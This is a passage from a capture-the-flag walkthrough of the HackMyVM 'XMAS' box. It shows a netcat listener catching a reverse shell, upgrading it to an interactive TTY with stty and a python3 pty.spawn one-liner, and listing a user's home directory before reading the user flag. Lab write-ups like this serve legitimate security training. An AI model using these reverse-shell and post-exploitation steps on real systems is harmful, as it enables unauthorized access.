 We should check our netcat listener.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/XMAS]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.21] 58760
$ 

```
A connection has been established, now we should upgrade our shell again.
```bash
$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
$ export TERM=xterm-256color  
export TERM=xterm-256color  
$ alias ll='ls -lsaht --color=auto'  
alias ll='ls -lsaht --color=auto'
```
Now hit `CTRL+Z` on the keyboard to move it to the background.
```
$ 
zsh: suspended  rlwrap nc -lvnp 4444
```
Now we have to perform some last steps to get a good interactive shell
```
┌──(emvee㉿kali)-[~/Documents/HMV/XMAS]
└─$ stty raw -echo ; fg ; reset  
[1]  + continued  rlwrap nc -lvnp 4444
$ stty columns 200 rows 200
stty columns 200 rows 200
$ python3 -c 'import pty; pty.spawn(["env","TERM=xterm-256color","/bin/bash","--rcfile", "/etc/bash.bashrc","-i"])'
python3 -c 'import pty; pty.spawn(["env","TERM=xterm-256color","/bin/bash","--rcfile", "/etc/bash.bashrc","-i"])'
alabaster@xmas:~$ 


```
Let's find out what files are in his directory.
```bash
alabaster@xmas:~$ ls -la
ls -la
total 60
drwxr-x--- 7 alabaster alabaster 4096 Nov 20 18:43 .
drwxr-xr-x 9 root      root      4096 Nov 19 22:29 ..
-rw------- 1 alabaster alabaster  791 Nov 20 19:28 .bash_history
-rw-r--r-- 1 alabaster alabaster  220 Jan  7  2023 .bash_logout
-rw-r--r-- 1 alabaster alabaster 3771 Jan  7  2023 .bashrc
drwx------ 3 alabaster alabaster 4096 Nov 19 11:07 .cache
drwxrwxr-x 4 alabaster alabaster 4096 Nov 19 11:08 .local
-rw-rw-r-- 1 alabaster alabaster   38 Nov 21 09:12 naughty_list.txt
-rw-rw-r-- 1 alabaster alabaster   25 Nov 21 09:12 nice_list.txt
drwxrwxr-x 2 alabaster alabaster 4096 Nov 19 21:50 NiceOrNaughty
-rw-r--r-- 1 alabaster alabaster  807 Jan  7  2023 .profile
drwxrwxr-x 2 alabaster alabaster 4096 Nov 20 18:45 PublishList
-rw-rw-r-- 1 alabaster alabaster   66 Nov 19 21:43 .selected_editor
drwx------ 2 alabaster alabaster 4096 Nov 17 17:32 .ssh
-rw-r--r-- 1 alabaster alabaster    0 Nov 17 17:34 .sudo_as_admin_successful
-rw-rw---- 1 alabaster alabaster  849 Nov 19 09:08 user.txt

```
There is an user flag in this directory. Let's capture the user flag.
```bash
alabaster@xmas:~$ cat user.txt
cat user.txt
    ||::|:||   .--------,
```